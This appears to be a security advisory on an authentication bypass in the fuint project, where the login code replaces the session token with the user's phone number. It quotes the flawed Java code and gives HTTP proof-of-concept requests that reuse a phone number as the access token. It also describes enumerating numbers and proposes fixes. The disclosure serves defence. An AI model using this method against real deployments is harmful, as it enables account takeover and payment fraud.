


## Title: [Authentication Bypass via Predictable Token] in [fuint] <= [v1.0]

# **BUG_Author:** [Security Research Team]

## Product Information
- **Software Link:** [https://github.com/fushengqian/fuint](https://github.com/fushengqian/fuint)
- **Affected Version:** <= v1.0
- **Vulnerability Type:** CWE-287 (Improper Authentication), CWE-798 (Use of Hard-coded Credentials)

## Vulnerability Details

### Vulnerable Files
- `fuint-application/src/main/java/com/fuint/module/clientApi/controller/ClientSignController.java`

### Vulnerability Type
- **Authentication Bypass** (CWE-287)
- **Predictable Session Token** (CWE-330)
- **Broken Authentication** (OWASP Top 10 2021 - A07:2021)

### Root Cause

**Critical Token Overwrite Vulnerability:**

The application contains a **critical flaw** in the user authentication logic where the securely generated authentication token is immediately overwritten with the user's mobile phone number. This results in an **authentication bypass** vulnerability that allows any attacker who knows a user's phone number to gain unauthorized access to that user's account.

**Vulnerable Code Analysis:**

```java
// ClientSignController.java - Line 324-349
// 方式2：通过账号密码登录
if (StringUtil.isNotEmpty(account) && StringUtil.isNotEmpty(password) && StringUtil.isNotEmpty(captchaCode)) {
    Boolean captchaVerify = captchaService.checkCodeByUuid(captchaCode, uuid);
    if (!captchaVerify) {
        return getFailureResult(201,"图形验证码有误");
    }

    MtUser userInfo = memberService.queryMemberByName(merchantId, account);
    if (userInfo != null) {
        String myPassword = userInfo.getPassword();
        String inputPassword = memberService.deCodePassword(password, userInfo.getSalt());
        if (myPassword.equals(inputPassword)) {
            UserInfo loginInfo = new UserInfo();
            // Step 1: Generate secure token (e.g., "e5d8f6a3b2c4d1a7f9e8...")
            loginInfo.setToken(TokenUtil.generateToken(userAgent, userInfo.getId())); 
            loginInfo.setId(userInfo.getId());
            // Step 2: ❌ CRITICAL BUG - Overwrite secure token with mobile number
            loginInfo.setToken(userInfo.getMobile());  // Token becomes "13888888888"
            TokenUtil.saveToken(loginInfo);  // Save phone number as token in Redis
            dto.setToken(loginInfo.getToken());  // Return phone number to client
            mtUser = userInfo;
        } else {
            return getFailureResult(201, "账号或密码有误");
        }
    }
}
```

**Token Storage in Redis:**

```
Redis Key: FUINT_USER13888888888
Redis Value: {
  "id": 123,
  "token": "13888888888",  ← Mobile number as token
  "mobile": "13888888888"
}
TTL: 604800 seconds (7 days)
```

**Security Issues:**

1. **Predictable Token**: The authentication token is simply the user's mobile phone number, which is easily guessable or obtainable through social engineering, data breaches, or public information.

2. **No Cryptographic Security**: Unlike proper tokens (which should be cryptographically random), phone numbers follow predictable patterns and have limited entropy.

3. **Persistent Vulnerability**: The token remains valid for 7 days, providing a long attack window.

4. **Token Reusability**: The same phone number always generates the same "token," eliminating any session-specific security.

### Impact

This vulnerability has **CRITICAL** severity with the following impacts:

#### 1. **Complete Account Takeover**
- Attackers can access any user account by simply knowing their phone number
- No password or additional authentication required
- Full access to user's personal data, financial information, and account operations

#### 2. **Mass User Data Breach**
- Phone numbers can be obtained from:
    - Data breaches
    - Social media profiles
    - Public directories
    - Marketing databases
    - Brute-force enumeration (limited phone number space)

#### 3. **Financial Loss**
Affected payment and transaction endpoints:
- `/clientApi/pay/doPay` - Unauthorized payments
- `/clientApi/settlement/submit` - Fraudulent orders
- `/clientApi/cart/**` - Shopping cart manipulation
- `/clientApi/order/**` - Order manipulation

#### 4. **Privacy Violation**
Affected sensitive data endpoints:
- `/clientApi/user/**` - Personal information exposure
- `/clientApi/message/**` - Private messages access
- `/clientApi/book/**` - Appointment records exposure
- `/clientApi/coupon/**` - Voucher theft

#### 5. **Business Logic Abuse**
- Unauthorized coupon redemption
- Fraudulent appointment booking
- Point/balance manipulation
- Order status manipulation

### Affected Endpoints

All endpoints under `/clientApi/**` that require authentication (validated by `ClientUserInterceptor`) are vulnerable:

**Critical Endpoints:**
- ❌ `/clientApi/user/**` - User profile and settings
- ❌ `/clientApi/pay/doPay` - Payment processing
- ❌ `/clientApi/settlement/submit` - Order settlement
- ❌ `/clientApi/order/**` - Order management
- ❌ `/clientApi/cart/**` - Shopping cart
- ❌ `/clientApi/coupon/receive` - Coupon redemption
- ❌ `/clientApi/book/submit` - Appointment submission
- ❌ `/clientApi/balance/**` - Balance operations
- ❌ `/clientApi/point/**` - Points management
- ❌ `/clientApi/member/**` - Member center

**Public Endpoints (Not Vulnerable):**
- ✅ `/clientApi/sign/**` - Login/Registration
- ✅ `/clientApi/page/home` - Homepage
- ✅ `/clientApi/captcha/**` - CAPTCHA
- ✅ `/clientApi/goodsApi/**` - Product browsing
- ✅ `/clientApi/coupon/list` - Coupon list (read-only)
- ✅ `/clientApi/coupon/detail` - Coupon details (read-only)
- ✅ `/clientApi/store/**` - Store information
- ✅ `/clientApi/article/**` - Articles
- ✅ `/clientApi/book/list` - Appointment list (read-only)
- ✅ `/clientApi/book/detail` - Appointment details (read-only)

**Note**: While public endpoints don't require authentication, the vulnerability enables attackers to bypass authentication on all protected endpoints.

## Proof of Concept

### Step 1: Legitimate User Login

User logs in with valid credentials:

```http
POST /clientApi/sign/signIn HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Google Chrome";v="141", "Not?A_Brand";v="8", "Chromium";v="141"
Referer: http://localhost:8080/swagger-ui.html
Sec-Fetch-Site: same-origin
accept: */*
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate, br, zstd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/json
sec-ch-ua-mobile: ?0
Origin: http://localhost:8080
sec-ch-ua-platform: "Windows"
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Content-Length: 122

{"account":"testuser","password":"123456","captchaCode":"wncn","uuid":"356161aed2a743ee893d56e0692a08be"}

```

**Server Response:**
```json
{
  "code": 200,
  "message": "登录成功",
  "data": {
    "token": "13888888888",  ← Phone number returned as token!
    "userId": 123,
    "userName": "testuser",
    "mobile": "13888888888"
  }
}
```


### Step 2: Attacker Exploitation

Attacker obtains the victim's phone number (e.g., from social media, business card, data breach) and directly uses it as the authentication token:

```http
GET /clientApi/user/info HTTP/1.1
Host: localhost:8080
sec-ch-ua-mobile: ?0
Sec-Fetch-Mode: cors
sec-ch-ua: "Google Chrome";v="141", "Not?A_Brand";v="8", "Chromium";v="141"
Sec-Fetch-Site: same-origin
Origin: http://localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br, zstd
accept: */*
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Referer: http://localhost:8080/swagger-ui.html
Access-Token:13888888888


```

**Server Response:**
Successfully authenticated as victim!


### Step 3: Verification in Redis

Redis shows the vulnerable token storage:

```bash
$ redis-cli get "FUINT_USER*"
```


### Attack Vectors

1. **Mass Enumeration Attack**
    - Phone numbers follow predictable patterns (e.g., 138xxxxxxxx, 139xxxxxxxx)
    - Attackers can enumerate valid users and gain access to thousands of accounts
    - No rate limiting on authentication checks

2. **Social Engineering**
    - Phone numbers are commonly shared in business contexts
    - Easy to obtain from employees, customers, or partners

3. **Data Breach Exploitation**
    - If phone numbers leak from ANY source, all accounts are compromised
    - Cross-site data correlation attacks

4. **Insider Threats**
    - Any employee with access to customer phone numbers can impersonate users

## Code Scan Evidence

### Discovery via Static Analysis

This vulnerability was discovered with the assistance of **[IRify](https://ssa.to)**, an advanced static code analysis tool for security vulnerability detection.

**IRify Detection Rule:**

```yaml
./(?i)(saveToken|setToken)/?(,* ?{!have:/(?i)token/} )  as  $toCheck
```

**IRify Audit Results:**



### Manual Code Analysis

The vulnerability can be further verified through manual static analysis:

**Token Generation (Correct):**
```java
// Line 337: Secure token generation
String secureToken = TokenUtil.generateToken(userAgent, userInfo.getId());
// Result: "e5d8f6a3b2c4d1a7f9e8b1a3c5d7e9f1"
```

**Token Overwrite (Vulnerability):**
```java
// Line 339: Token overwritten with phone number
loginInfo.setToken(userInfo.getMobile());
// Result: "13888888888"
```

**Vulnerable Comparison - SMS Login vs Account Login:**

| Method | Token Generation | Token Storage | Security |
|--------|-----------------|---------------|----------|
| SMS Login (Line 308-313) | ✅ Secure | ✅ Correct | ✅ SECURE |
| Account Login (Line 336-341) | ✅ Secure → ❌ **Overwritten** | ❌ Phone Number | ❌ **VULNERABLE** |

## Suggested Repairs

### 1. **Immediate Fix (Critical Priority)**

Remove the token overwrite on line 339:

```java
// BEFORE (Vulnerable):
UserInfo loginInfo = new UserInfo();
loginInfo.setToken(TokenUtil.generateToken(userAgent, userInfo.getId()));
loginInfo.setId(userInfo.getId());
loginInfo.setToken(userInfo.getMobile());  // ❌ DELETE THIS LINE
TokenUtil.saveToken(loginInfo);

// AFTER (Fixed):
UserInfo loginInfo = new UserInfo();
String secureToken = TokenUtil.generateToken(userAgent, userInfo.getId());
loginInfo.setToken(secureToken);  // ✅ Keep secure token
loginInfo.setId(userInfo.getId());
loginInfo.setMobile(userInfo.getMobile());  // ✅ Store mobile separately
TokenUtil.saveToken(loginInfo);
dto.setToken(secureToken);  // ✅ Return secure token
```

### 2. **Enhanced Token Security**

Implement stronger token generation:

```java
public static String generateSecureToken(String userAgent, Integer userId) {
    // Use cryptographically secure random generation
    SecureRandom secureRandom = new SecureRandom();
    byte[] tokenBytes = new byte[32];
    secureRandom.nextBytes(tokenBytes);
    
    String baseToken = Base64.getUrlEncoder().encodeToString(tokenBytes);
    String metadata = userId + "_" + System.currentTimeMillis() + "_" + userAgent.hashCode();
    
    // Generate HMAC-SHA256 signature
    String signature = HmacUtils.hmacSha256Hex(SECRET_KEY, baseToken + metadata);
    
    return baseToken + "." + signature;
}
```

### 3. **Token Validation Enhancement**

Add additional validation layers:

```java
public static AccountInfo getAccountInfoByToken(String token) {
    // Validate token format
    if (!isValidTokenFormat(token)) {
        logger.warn("Invalid token format detected: {}", token);
        return null;
    }
    
    // Check token signature
    if (!verifyTokenSignature(token)) {
        logger.warn("Token signature verification failed");
        return null;
    }
    
    // Retrieve from Redis with user binding
    Object loginInfo = RedisUtil.get(Constants.SESSION_ADMIN_USER + token);
    AccountInfo accountInfo = objectMapper.convertValue(loginInfo, AccountInfo.class);
    
    if (accountInfo != null && accountInfo.getToken().equals(token)) {
        // Additional security checks
        if (isTokenExpired(accountInfo)) {
            logger.warn("Token expired for user: {}", accountInfo.getId());
            return null;
        }
        return accountInfo;
    }
    
    return null;
}
```

### 4. **Add Token Rotation**

Implement periodic token rotation:

```java
public static void rotateTokenIfNeeded(UserInfo userInfo) {
    long tokenAge = System.currentTimeMillis() - userInfo.getTokenCreatedTime();
    long rotationThreshold = TimeUnit.HOURS.toMillis(24);  // Rotate every 24 hours
    
    if (tokenAge > rotationThreshold) {
        String newToken = generateSecureToken(userInfo.getUserAgent(), userInfo.getId());
        String oldToken = userInfo.getToken();
        
        // Update token
        userInfo.setToken(newToken);
        userInfo.setTokenCreatedTime(System.currentTimeMillis());
        
        // Save new token
        saveToken(userInfo);
        
        // Invalidate old token
        RedisUtil.remove(Constants.SESSION_USER + oldToken);
    }
}
```

### 5. **Security Monitoring**

Add logging and monitoring for suspicious activities:

```java
@Override
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) {
    String accessToken = request.getHeader("Access-Token");
    String requestIP = CommonUtil.getIPFromHttpRequest(request);
    
    // Check if token looks like a phone number
    if (accessToken != null && accessToken.matches("^1[3-9]\\d{9}$")) {
        logger.error("SECURITY ALERT: Phone number used as token! IP: {}, Token: {}, URI: {}", 
                    requestIP, accessToken, request.getRequestURI());
        // Alert security team
        securityMonitor.alertSuspiciousActivity(requestIP, accessToken);
        return false;
    }
    
    // Continue with normal validation
    UserInfo loginInfo = TokenUtil.getUserInfoByToken(accessToken);
    if (loginInfo != null) {
        // Log access for audit
        auditLogger.logAccess(loginInfo.getId(), requestIP, request.getRequestURI());
        return true;
    }
    
    return false;
}
```

### 6. **Additional Security Measures**

- **Implement Rate Limiting**: Limit authentication attempts per IP/user
- **Add IP Binding**: Bind tokens to IP addresses for additional security
- **Enable MFA**: Implement two-factor authentication for sensitive operations
- **Token Blacklisting**: Maintain a blacklist of compromised tokens
- **Session Management**: Implement proper session timeout and renewal mechanisms
- **Security Headers**: Add security headers (X-Frame-Options, Content-Security-Policy, etc.)

## Additional Information

### CVE Classification
- **CVSS v3.1 Base Score**: 9.8 (CRITICAL)
    - Attack Vector: Network (AV:N)
    - Attack Complexity: Low (AC:L)
    - Privileges Required: None (PR:N)
    - User Interaction: None (UI:N)
    - Scope: Unchanged (S:U)
    - Confidentiality: High (C:H)
    - Integrity: High (I:H)
    - Availability: High (A:H)

### References
- CWE-287: Improper Authentication
- CWE-798: Use of Hard-coded Credentials
- CWE-330: Use of Insufficiently Random Values
- OWASP Top 10 2021 - A07:2021 Identification and Authentication Failures
- OWASP Authentication Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
- NIST SP 800-63B: Digital Identity Guidelines - Authentication and Lifecycle Management

### Comparison with SMS Login (Secure Implementation)

The SMS login method (lines 284-322) correctly implements token handling:

```java
// ✅ SECURE - SMS Login
String userToken = TokenUtil.generateToken(userAgent, mtUser.getId());
UserInfo loginInfo = new UserInfo();
loginInfo.setId(mtUser.getId());
loginInfo.setToken(userToken);  // Token NOT overwritten
loginInfo.setMobile(mtUser.getMobile());  // Mobile stored separately
TokenUtil.saveToken(loginInfo);
```

This demonstrates that the development team understands proper token handling, making the account/password login bug appear to be an unintentional coding error rather than a design flaw.

## Mitigation Timeline

### Immediate Actions (Within 24 hours):
1. **Apply Emergency Patch**: Remove line 339 that overwrites the token
2. **Deploy Hotfix**: Push emergency update to production
3. **Force Token Regeneration**: Invalidate all existing sessions and require users to re-login
4. **Enable Monitoring**: Activate security monitoring to detect exploitation attempts
5. **Notify Security Team**: Alert incident response team

### Short-term (Within 1 week):
1. **Code Review**: Conduct comprehensive security audit of all authentication code
2. **Implement Enhanced Token Security**: Deploy stronger token generation mechanisms
3. **Add Rate Limiting**: Implement authentication rate limiting
4. **Security Testing**: Perform penetration testing on authentication flows
5. **User Notification**: If exploitation detected, notify affected users

### Long-term (Within 1 month):
1. **Implement MFA**: Add two-factor authentication option
2. **Security Training**: Train development team on secure authentication practices
3. **Automated Security Scanning**: Integrate SAST/DAST tools into CI/CD pipeline
4. **Session Management Overhaul**: Implement comprehensive session security framework
5. **Bug Bounty Program**: Establish responsible disclosure program

## Disclosure Timeline

- **Discovery Date**: 2025-10-20
- **Vendor Notification**: Immediate
- **Patch Development**: 1-3 days
- **Public Disclosure**: 30 days after patch availability (or sooner if active exploitation detected)

## Conclusion

This vulnerability represents a **CRITICAL security flaw** that completely undermines the application's authentication mechanism. The use of predictable phone numbers as authentication tokens enables trivial account takeover attacks with no technical sophistication required.

**Risk Assessment:**
- **Likelihood**: HIGH (Easy to exploit, no special tools required)
- **Impact**: CRITICAL (Complete account takeover, financial loss, data breach)
- **Overall Risk**: CRITICAL

**Immediate action is required** to patch this vulnerability and protect user accounts. The fix is straightforward (removing a single line of code), but the impact of delayed remediation could be severe, including:
- Mass account compromises
- Financial losses for users and the business
- Regulatory compliance violations (GDPR, CCPA, etc.)
- Reputational damage
- Legal liability

Organizations using this software should:
1. Apply the patch immediately
2. Force all users to re-authenticate
3. Monitor for signs of exploitation
4. Consider notifying users if breach is suspected
5. Review and strengthen overall authentication architecture

**This vulnerability must be treated as a security emergency and remediated with highest priority.**

